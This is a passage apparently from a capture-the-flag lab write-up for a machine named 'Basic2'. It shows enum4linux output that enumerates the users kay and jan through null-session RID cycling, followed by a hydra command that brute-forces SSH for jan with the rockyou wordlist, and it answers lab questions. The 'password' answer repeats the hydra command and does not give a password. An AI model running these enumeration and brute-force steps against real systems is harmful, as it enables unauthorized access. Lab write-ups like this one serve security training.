 ```
[+] Getting local group memberships:

[+] Getting domain groups:

[+] Getting domain group memberships:

 ========================================================================
|    Users on 10.10.103.107 via RID cycling (RIDS: 500-550,1000-1050)    |
 ========================================================================
[I] Found new SID: S-1-22-1
[I] Found new SID: S-1-5-21-2853212168-2008227510-3551253869
[I] Found new SID: S-1-5-32
[+] Enumerating users using SID S-1-5-21-2853212168-2008227510-3551253869 and logon username '', password ''
S-1-5-21-2853212168-2008227510-3551253869-500 *unknown*\*unknown* (8)
S-1-5-21-2853212168-2008227510-3551253869-501 BASIC2\nobody (Local User)
[...]
S-1-5-21-2853212168-2008227510-3551253869-513 BASIC2\None (Domain Group)
[...]
[+] Enumerating users using SID S-1-5-32 and logon username '', password ''
[...]
S-1-5-32-544 BUILTIN\Administrators (Local Group)
S-1-5-32-545 BUILTIN\Users (Local Group)
S-1-5-32-546 BUILTIN\Guests (Local Group)
S-1-5-32-547 BUILTIN\Power Users (Local Group)
S-1-5-32-548 BUILTIN\Account Operators (Local Group)
S-1-5-32-549 BUILTIN\Server Operators (Local Group)
S-1-5-32-550 BUILTIN\Print Operators (Local Group)
[...]
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User)

 ==============================================
|    Getting printer info for 10.10.103.107    |
 ==============================================
No printers returned.


enum4linux complete on Tue Sep 15 08:40:44 2020
```

```
hydra -l jan -P /usr/share/wordlists/rockyou.txt 10.10.103.107 ssh
```

5. What is the username?

`jan`

6. What is the password?

```
hydra -l jan -P /usr/share/wordlists/rockyou.txt 10.10.103.107 ssh
```
